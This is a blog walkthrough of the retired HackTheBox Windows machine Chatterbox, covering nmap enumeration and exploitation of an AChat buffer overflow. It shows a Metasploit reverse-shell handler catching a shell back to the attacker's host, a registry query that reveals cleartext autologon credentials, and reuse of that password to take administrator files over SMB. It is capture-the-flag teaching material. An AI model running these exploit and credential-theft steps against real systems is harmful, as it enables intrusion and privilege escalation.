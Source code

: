 ```yaml
---
title: "HackTheBox: Chatterbox"
date: 2024-08-17
categories:
  - blog
tags:
  - hackthebox
  - exploit_mod
  - buffer_overflow
---
```


![](/assets/img/chatterbox/Chatterbox.png)

Chatterbox is a retired Windows based system that is accessible with a VIP HackTheBox membership. The box is rated as "Medium" difficulty. I would rate closer to the easy side, however, frustration levels when attempting to exploit the box do rate on the medium end. This is mainly due to having one or two attempts at running the exploit before you have to reboot Chatterbox. Once you have located and properly modified the exploit to gain a low-privilege shell it's pretty straightforward enumeration here to escalate privileges on this box.

If you are not sure where to start with Windows Privilege Escalation this is an extremely handy guide to follow:[ https://github.com/pha5matis/Pentesting-Guide/blob/master/privilege_escalation_windows.md]( https://github.com/pha5matis/Pentesting-Guide/blob/master/privilege_escalation_windows.md)

Let's start at the beginning. 

Nmap scan of all ports to start enumerating the system.

```
nmap -vv -Pn -sCV -T4 -p- 10.10.10.74 -oA chatterbox-nmap
```

Nmap results:

```
PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         syn-ack AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        syn-ack AChat chat system
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-14T22:35:27-04:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 6h20m13s, deviation: 2h18m36s, median: 5h00m11s
| smb2-time: 
|   date: 2024-08-15T02:35:23
|_  start_date: 2024-08-15T01:54:33
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38735/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29086/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 64306/udp): CLEAN (Failed to receive data)
|   Check 4 (port 24012/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

Nmap has located some interesting ports.  Maybe a web server running on 9255/tcp? Need to research "AChat" to figure out what this service is. We're also presented with an MD5 favicon hash that is unknown to nmap.

While I did not locate any additional information on the favicon hash in this instance (aside from locating many other Chatterbox write-ups), having a favicon hash may provide a way to expand attack surface when utilizing services such as [Shodan](https://www.shodan.io/). 

Tools such as [favscan](https://blog.shodan.io/deep-dive-http-favicon/), [Favicon-Hash-For-Shodan.io](https://github.com/Mr-P-D/Favicon-Hash-For-Shodan.io), and [FavFreak](https://github.com/devanshbatham/FavFreak) can be used to generate the favicon hash to be included in a search query on Shodan: "http.favicon.hash:INSERT_HASH_ID_HERE"

The [OWASP Favicon Database](https://owasp.org/www-community/favicons_database) is another great resource for searching on favicon hashes.

```
9255/tcp  open  http         syn-ack AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
9256/tcp  open  achat        syn-ack AChat chat system
```

Nothing displays when attempting to browse to ports 9255 or 9256 via web browser or when attempting to connect via nc. 

After some quick googlefu we find what "AChat" is. Also, we take note of the software version number listed. This may be the version in use on our target.

![](/assets/img/chatterbox/Walkthrough-googlefu-achat.png)

Let's take a look to see if there are any known exploits using searchsploit.

![](/assets/img/chatterbox/Walkthrough-searchsploit.png)

We find a remote buffer overflow exploit (36025.py) for Achat 0.150 beta7. We do not have an exact version for the Achat software running on our target, but our research earlier indicated that v0.150 appeared to be the most recent version available.

![](/assets/img/chatterbox/Walkthrough-achat-exploit.png)

The exploit author has provided an msfvenom payload that will spawn calc.exe upon launch. While this may be a good payload to demonstrate a proof of concept on a system where we have access to the desktop, we will want to modify the payload to send a reverse shell.

![](/assets/img/chatterbox/Walkthrough-modified-payload-1.png)

Having modified the payload to produce a reverse shell, we'll run the full msfvenom command and are provided with shell code that will be inserted into the python script in place of the existing shellcode. With the shellcode updated, we'll save and close the python file.

Note on setting up a listener: I initially attempted to use netcat as the listener to catch the reverse shell. The shell would be caught and dropped within a few seconds. After a few modifications of the payload type the shell kept dropping, so I decided to move on to using the multi/handler from metasploit.

Launch msfconsole, set up a multi handler with windows/shell/reverse_tcp as the payload, verify options are set properly, and run the handler.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > options

Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     80               yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.3:80 
```

With the reverse handler listening, we'll run the exploit and see if we get a shell.

```bash
┌──(kali㉿kali)-[~/Documents/htb/chatterbox]
└─$ ./36025.py                                            
---->{P00F}!
```

```
[*] Sending stage (240 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.14.3:80 -> 10.10.10.74:49162) at 2024-08-16 23:07:18 -0400

Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----  

C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>
```

Great! We have a shell as a low-privilege user Alfred. Navigate to Alfred's desktop folder to retrieve the user flag.

Time to start enumerating the system to find our privilege escalation point.

A review of the Winlogon registry key indicates that "AutoAdminLogon" is enabled for Alfred's user. Alfred's credentials are found in cleartext.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

![](/assets/img/chatterbox/Walkthrough-alfred-creds.png)

Let's do a quick check to see if the administrator account is using the same password. We'll use smbclient to attempt a connection on C$ using administrator credentials.

```
──(kali㉿kali)-[~/Documents/htb/chatterbox]
└─$ smbclient \\\\10.10.10.74\\c$ -U administrator
Password for [WORKGROUP\administrator]:
```

Alfred's password works for the administrator account as well.

Using smbclient, we'll grab a copy of the root.txt file and secure the root flag.

```
smb: \Users\administrator\Desktop\> get root.txt
getting file \Users\administrator\Desktop\root.txt of size 34 as root.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \Users\administrator\Desktop\> 
```

Success! We have compromised the system and escalated our privileges to local administrator which allowed us to retrieve both the user and root flags.

This was a fun and at times frustrating challenge due to stability issues. Chances are high that you will lose your shell and most likely have to reboot the box at least once. 

Automagic enumeration utilizing winpeas.bat did not work for me. Winpeas would run for a bit and never complete. The shell would hang forcing me to kill the connection and restart the box. Manual enumeration was key for privilege escalation.

While there may be many paths you can take to exploit this box, this one was mine and I hope you find this write-up useful.

![](/assets/img/chatterbox/Walkthrough-pwned.png)